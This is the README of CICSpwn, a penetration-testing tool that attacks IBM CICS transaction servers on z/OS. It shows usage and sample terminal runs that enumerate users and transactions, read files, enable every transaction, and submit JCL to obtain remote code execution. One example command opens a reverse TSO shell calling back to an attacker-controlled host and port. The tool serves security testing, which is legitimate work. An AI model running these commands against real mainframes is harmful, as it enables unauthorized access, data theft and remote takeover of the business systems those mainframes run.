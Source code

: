 # CICSpwn
## Description  
CICSpwn is a tool to pentest CICS Transaction servers on z/OS.

## Features    
* Get general information about CICS and the underlying z/OS  
  * List available IBM supplied transactions
  * Get active sessions and userids
  * Get path (HLQ) of files and libraries
  * Check if CICS is using RACF/ACF2/TopSecret   
* Read files created by the application 
* Enables CECI and CEMT if they are RACF protected
* Remotely execute code using Spoolopen and TDqueue
* Checks security settings on z/OS
## Usage
```
$python cicspwn.py -h

       ::::::::   :::::::::::   ::::::::    ::::::::   ::::::::: :::       :::::::    ::: 
      :+:    :+:      :+:      :+:    :+:  :+:    :+:  :+:    :+::+:       :+::+:+:   :+: 
      +:+             +:+      +:+         +:+         +:+    +:++:+       +:+:+:+:+  +:+ 
      +#+             +#+      +#+         +#++:++#++  +#++:++#+ +#+  +:+  +#++#+ +:+ +#+  
      +#+             +#+      +#+                +#+  +#+       +#+ +#+#+ +#++#+  +#+#+# 
      #+#    #+#      #+#      #+#    #+#  #+#    #+#  #+#        #+#+# #+#+# #+#   #+#+# 
       ########   ###########   ########    ########   ###         ###   ###  ###    #### 
      
                            The tool for some CICS p0wning !		Author: @Ayoul3__

CicsPwn: a tool to pentest CICS transaction servers on z/OS

positional arguments:
  IP                    The z/OS Mainframe IP or Hostname
  PORT                  CICS/VTAM server Port

optional arguments:
  -h, --help            show this help message and exit
  -a APPLID, --applid APPLID
                        CICS ApplID on VTAM, default is CICS

Information gathering:
  -A, --all             Gather all information about a CICS Transaction Server
  -i, --info            Gather basic information about a CICS region
  -u, --userids         Scrape userids found in different menus
  -p PATTERN, --pattern PATTERN
                        Specify a pattern of a files/transaction/tsqueue to
                        get (default is "*")
  -q, --quiet           Remove Trailing and journal before performing any
                        action
  --ceci CECI           CECI new transaction name. Result of -i option.
  --cemt CEMT           CEMT new transaction name. Result of -i option.

Storage options:
  -f, --files           List all installed files a on TS CICS
  -e, --tsqueues        List all temporary storage queues on TS CICS
  --get-file FILENAME   Get the content of a file. It attempts to change the
                        status of the file if it's not enabled, opened or
                        readable
  --get-tsq TSQ_NAME    Get the content of a temporary storage queue.
  --enable-files ENA_FILES
                        Enable a file (keyword ALL to enable every file)

Transaction options:
  -t, --trans           Get all installed transactions on a CICS TS server
  --enable-trans ENA_TRANS
                        Enable a transaction (keyword ALL to enable every
                        transaction)

Access options:
  -U USERID, --userid USERID
                        Specify a userid to use on CICS
  -P PASSWORD, --password PASSWORD
                        Specify a password for the userid
  -r PROPAGATE_USER     Given the region user ID, checks wether you are
                        allowed to use it to submit JOBs
  -g SURROGAT_USER      Checks wether you can impersonate another user when
                        submitting a job

JOB options:
  -s SUBMIT, --submit SUBMIT
                        Submit JCL to CICS server. Specify:
                        dummy,reverse_unix, reverse_tso, direct_unix,
                        reverse_unix, ftp or custom (need -j option)
  --queue QUEUE         Provides the name of the TD queue to submit a JOB
  --ftp-cmds FTP_CMDS   Files containig a list of ftp commands to execute
  --node NODE           System node name where the JOB should be submitted
                        (works only with Spool functions)
  -l LHOST, --lhost LHOST
                        Remote server to call back to for reverse shell
                        (host:port)
  --port PORT           Remote port to open for bind shell in REXX
  -j JCL, --jcl JCL     Custom JCL file to provide

```
## Prerequisites
3270 Python library [py3270](https://pypi.python.org/pypi/py3270/0.2.0)

## Getting general information
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -i
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting information about CICS server (APPLID: CICS)
	[*] CICS TS Version: 3.2
	[*] CICS default user: CICSUSER
[+] Interesting and available IBM supplied transactions: 
	[*] CEMT
	[*] CEDA
	[*] CECI
	[*] CECS
	[*] CEBR
[+] General system information: 
	[*] Userid: CICSUSER
	[*] Sysid: S650
	[*] LU session name: LCL702
	[*] language: E
	[*] Files HLQ:	CICS650.**
	[*] Library path:	DFH320.CICS.**
[+] Active users
	[*] CICSUSER
	[*] CICSUSER
	[*] CICSUSER
[+] JCL Submission
	[*] Access to the internal spool is apparently available
[+] Access control
	[*] CICS does not use RACF/ACF2/TopSecret. Every user has as much access as the CICS region ID

```
## Read a file
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 --get-file FILEA
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting Attributes of file FILEA
[*] File FILEA is enabled, open, and readable
[*] Record size: 80	keylength:6
RECORD 1
RECORD 2
...

```

## List TSQueues
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -e
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting all tsqueues that match *
Tsqueue	Items	Length	Transaction
KOS5	00001	0000000064	CECI
TEST	00001	0000000064	CECI
TES5	00001	0000000064	CECI
...

```

## List TSQueues
```
root@kali:~/cics# python cicspwn.py 192.168.1.207 23 -a CICS -U AYOUB -P AYOU1 --enable-tran ALL
[+] Connecting to target 192.168.1.207:23
[*] Access to CICS Terminal is possible with APPID CICS
[*] Successful authentication
[+] Activating ALL transactions
[*] All transactions are enabled

...

```

## Reverse shell using CICSpwn
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -s reverse_tso -l 192.168.1.16:4445
[+] Connecting to target 192.168.1.209:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Setting the current terminal to mixed case
[*] Got TerminalID L702
[*] Current terminal is NOW mixed case
[+] Spool not available apparently, trying via TDQueue
[+] Writing to the internal TDQueue
	[*] JCL Written to TDqueue, it should be executed any second

```

## Copyright and license  
cicsPWN is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.  
CICSpwn is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  
See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with nmaptocsv. If not, see http://www.gnu.org/licenses/.

## Credit
The REXX code of the reverse shell was mainly inspired by the work of [@mainframed767](https://github.com/mainframed/Mainframed)

## Contact
Ayoub ELAASSAL ayoul3.zos at gmail dot com
